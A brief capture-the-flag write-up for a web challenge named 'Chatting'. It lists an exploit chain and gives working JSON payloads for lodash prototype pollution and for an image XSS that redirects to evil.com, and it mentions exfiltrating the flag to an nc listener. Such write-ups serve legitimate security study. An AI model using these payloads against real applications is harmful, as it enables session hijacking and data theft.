 # Chatting

~~直接admin登陆getflag~~

（唉应该加个限制admin登陆ip的）

expected exploit approach
1. lodash prototype pollution
2. image xss (many ways)
3. make the admin refresh the browser page and goto a third party site which would connect to the websocket server as a client
4. login as admin, getflag and send it to your favorite `nc -lvp 1337`

### Details

prototype pollution payload:
```js
content: {
    type: 'tpl',
    data: {
        tpl: '<h3>{{b}}</h3>',
        ctx: '{"a":123, "b":123, "__proto__":{"allowImage":true}}'
    }
}
```

xss payload:
```js
content: {
    type: 'image',
    data: {
        src: 'https://i.picsum.photos/id/220/200/200.jpg?hmac=1eed0JUIOlpc-iGslem_jB1FORVXUdRtOmgpHxDDKZQ',
        attrs: {
            wow: 1,
            dangerouslySetInnerHTML: {
                __html: "<img onerror='location.href=`http://evil.com`' src=1>"
            }
        }
    }
}
```
